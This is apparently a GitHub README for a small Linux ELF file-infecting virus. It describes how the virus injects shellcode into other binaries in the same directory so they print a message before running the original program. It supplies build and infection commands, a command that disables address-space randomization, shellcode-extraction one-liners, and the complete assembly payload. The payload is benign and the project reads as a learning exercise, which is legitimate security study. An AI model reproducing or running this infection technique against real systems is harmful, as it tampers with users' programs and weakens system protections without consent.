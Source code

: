 # Easy virus (virus)

```sh
    MVladislav
```

> Short **virus**, which will **add a text** into any random
> **binary** within the **same directory** as the **virus** runs.</br>
> Files will be **infected only once**.
>
> When the binary start:
>
> > First will be printed this added text, </br>
> > and then will run the original binary.

---

<!-- TOC -->

- [Easy virus (virus)](#easy-virus-virus)
  - [Things and so on](#things-and-so-on)
    - [disable randomization](#disable-randomization)
    - [how to convert assembler code for code as hex and run](#how-to-convert-assembler-code-for-code-as-hex-and-run)
  - [Hints](#hints)
  - [hay-code](#hay-code)

<!-- /TOC -->

---

## Things and so on

### disable randomization

- `$echo 0 > /proc/sys/kernel/randomize_va_space`

### how to convert assembler code for code as hex and run

- generate x64 a "hay-code" as hex for injecting target files
  - ```sh
    nasm -f elf64 -o iAmRoot.o iAmRoot.asm
    ld -o iAmRoot iAmRoot.o
    objdump -D iAmRoot > iAmRoot.txt
    echo `objdump -d iAmRoot | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}\$'` | nawk '{for(;++i<=NF;) printf(",0x%s%c", $i, (i%1)?"":(i==NF)?ORS:OFS)}'
    ```
- copy and run to infect test file(s)
  > copy any test file (like `echo`) into same folder as the `virus`
  >
  > and run the `virus`
  - ```sh
    sudo cp /bin/echo test_echo
    sudo chown $USER:$USER test_echo
    make
    ./virus
    ```

## Hints

- from dump as "\x"-hex written
  - `for i in`objdump -d iAmRoot | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}\$' `; do echo -n "\\x$i" ; done ; echo -e "\n"`
- from dump as space splitted written
  - `for i in`objdump -d iAmRoot | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}\$' `; do echo -n "$i " ; done ; echo -e "\n"`
  - `echo`objdump -d iAmRoot | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}\$'`| nawk '{for(;++i<=NF;) printf("%s%c", $i, (i%2)?"":(i==NF)?ORS:OFS)}'`
- for testing shellcode with C
  - `gcc shellcodetester.c -fno-stack-protector -z execstack -o shellcodetester`

## hay-code

```asm
; iAmRoot.asm
; author: MVladislav
; print Hey! I am an elf virus ;-)!\n and jump back
; jmp address `0xcf73` is only a placeholder
;   will be calculated and replaced in code

section .text
  global iAmRoot

  iAmRoot:
    push    rax ; %rax %eax %ax %al
    push    rdi ; %rdi %edi %di %dil
    push    rsi ; %rsi %esi %si %sil
    push    rdx ; %rdx %edx %dx %dl

    xor     rdi, rdi
    mov     dil, 1
    xor     rax, rax
    mov     al, 1
    xor     rsi, rsi
    mov     rsi, 0x0a21292d3b207375 ; "us ;-)!\n" is stored in reverse order "..."
    push    rsi
    mov     rsi, 0x72697620666c6520 ; " elf vir" is stored in reverse order "..."
    push    rsi
    mov     rsi, 0x6e61206d61204920 ; " I am an" is stored in reverse order "..."
    push    rsi
    mov     rsi, 0x2179654800000000 ; "Hey!" is stored in reverse order "..."
    push    rsi

    mov     rsi, rsp
    xor     rdx, rdx
    mov     dl, 32
    syscall

    pop    rsi
    pop    rsi
    pop    rsi
    pop    rsi

    pop     rdx
    pop     rsi
    pop     rdi
    pop     rax
    jmp     0xcf73
```
